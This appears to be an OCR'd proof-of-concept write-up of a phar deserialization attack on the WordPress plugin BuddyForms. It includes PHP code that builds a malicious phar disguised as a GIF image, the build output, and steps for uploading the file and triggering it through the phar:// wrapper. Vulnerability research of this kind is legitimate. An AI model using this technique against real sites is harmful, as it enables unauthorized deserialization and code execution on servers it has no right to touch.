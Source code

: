 ```
Proof Of Concept
The first step of our exploitation is to create our malicious phar archive which will have to pretend to be an image :

<?php

class Evil{
  public function __wakeup() : void {
    die("Arbitrary Deserialization");
  }
}
```

//create new Phar
$phar = new Phar('evil.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("GIF89a\n<?php __HALT_COMPILER(); ?>");

// add object of any class as meta data
$object = new Evil();
$phar->setMetadata($object);
$phar->stopBuffering();
Note the presence of ‘GIF89a’ which will make the plugin believe that our file is a GIF image

root@vmi652687:/tmp# php --define phar.readonly=0 evil.php
root@vmi652687:/tmp# strings evil.phar
GIF89a
<?php __HALT_COMPILER(); ?>
O:4:"Evil":0:{}
test.txt
text
WJFP5
GBMB
So as a reminder, our WordPress installation has two plugins, BuddyForms as well as our ‘dummy’ plugin which simulates a vulnerable plugin allowing a gadget chain


We send our file to the server via a POST request containing the correct parameters expected by the function described above


The server answers OK and tells us that the file is available at the URL http://domain.tld/wp-content/uploads/2023/02/1.png which can be checked by opening the corresponding folder in your browser


So we just have to do the same action again, except that this time we will use the phar:// wrapper in the URL and indicate the path of our file.

By chance, the structure of wordpress folders is always the same, you just have to go up one folder to access wp-content. So, it is possible to use the relative path to our file stored on the server


And voila, we managed to trigger an arbitrary deserialization

As sometimes a picture is worth a thousand words, here is a diagram that summarizes the explanation
